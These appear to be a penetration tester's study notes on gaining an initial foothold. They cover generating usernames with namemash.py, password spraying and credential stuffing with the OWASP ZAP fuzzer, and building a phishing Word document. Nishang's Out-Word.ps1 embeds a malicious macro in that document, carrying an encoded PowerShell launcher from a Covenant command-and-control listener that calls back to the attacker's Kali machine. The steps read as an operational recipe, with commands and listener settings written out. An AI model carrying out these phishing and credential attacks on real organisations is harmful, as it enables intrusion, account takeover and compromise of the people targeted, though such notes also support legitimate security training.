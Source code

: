 

# Gaining the Foothold

	https://mayosec.github.io/MayorSecSecuritySolutions/



## Enum
- Write down names/usernames 
- we can run **namemash.py** to transform all gathered names into possible usernames

```python
python3 namemash.py <names-file.txt>
```

Run owasp ZAP:
```powershell
attack > fuzz = intruder of burp
here we can add username/password as variables and try password spraying/credential stuffing
```



## Phishing DOC
write an email with that access
```
go to github > nishang Out-Word.ps1 
# this will put a malicious macro in your word file
save the exploit: notepad > OutWord.ps1
```


Create a listener in Convenant:
```
Listeners > httpListener: 
name: HTTP Listener
ConnectAddresses: <kali ip>
ConnectPort: 80 (or another if u want)
Save
```

```
# Go to Lauchers > Powershell > Generate > Listener: HTTP Listener
DotNetVersion: Net40
KillDate: something in the future
Generate
# Lauchers > Host > url: rev,ps1 > host
copy the encoded payload
```


Go to Workstation-01: where the phishing is happening:
```
powershell > import OutWord.ps1 = . .\OutWord.ps1
run the file > OutWord.ps1 -Payload "paste the encoded payload" -OutputFile Something.doc
now we gotta send the something.doc to the kali machine
```
